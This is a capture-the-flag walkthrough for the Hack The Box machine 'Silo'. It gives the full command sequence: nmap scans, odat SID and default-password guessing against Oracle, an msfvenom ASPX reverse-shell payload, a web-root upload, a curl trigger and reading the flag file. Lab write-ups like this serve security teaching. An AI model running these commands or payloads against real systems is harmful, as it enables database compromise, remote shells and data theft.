

# [Silo](https://app.hackthebox.com/machines/silo)

```bash
nmap -p- --min-rate 10000 10.10.10.82 -Pn
```


From here, we identify ports (80,135,139,445,1521,5985,8080,47001), let's do greater nmap scan for this ports.

```bash
nmap -A -sC -sV -p80,135,139,445,1521,5985,8080,47001 10.10.10.82 -Pn 
```


Let's pentest Oracle database (port=1521) via `odat` hacking tool which is used to attack Oracle databases.


Let's find SID of target oracle database.

```bash
odat sidguesser -s 10.10.10.82 -p 1521
```


After finding SID string, we can know that default credentials are used or not for authentication to Oracle database.

For this, I will use below default credentials.


```bash
odat passwordguesser -s 10.10.10.82 -d XE --accounts-files /root/users.txt /root/passwords.txt
```


Now, I try to '**dbmsxslprocessor**' option of `odat` attacking tool to upload my webshell to get reverse shell.

1.First, we need to create malicious `.aspx` file via `msfvenom` command.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.8 LPORT=1337 -f aspx > dr4ks.aspx
```




2.Now, we need to upload our malicious `dr4ks.aspx` file into machine.
```bash
odat dbmsxslprocessor -s 10.10.10.82 -d XE -U scott -P tiger --putFile "C:\inetpub\wwwroot" "dr4ks.aspx" "/root/dr4ks.aspx" --sysdba
```


Everything is done , if browse this page which my malicious `.aspx` file located here, I can get reverse shell.

```bash
curl http://10.10.10.82/dr4ks.aspx
```


I got reverse shell from port (1337)


user.txt


For both of user.txt and root.txt, we can use  '**externaltable**' feature of `odat` attacking tool.

```bash
odat externaltable -s 10.10.10.82 -d XE -U scott -P tiger --getFile "C:\Users\Administrator\Desktop" "root.txt" "root.txt" --sysdba
```


root.txt

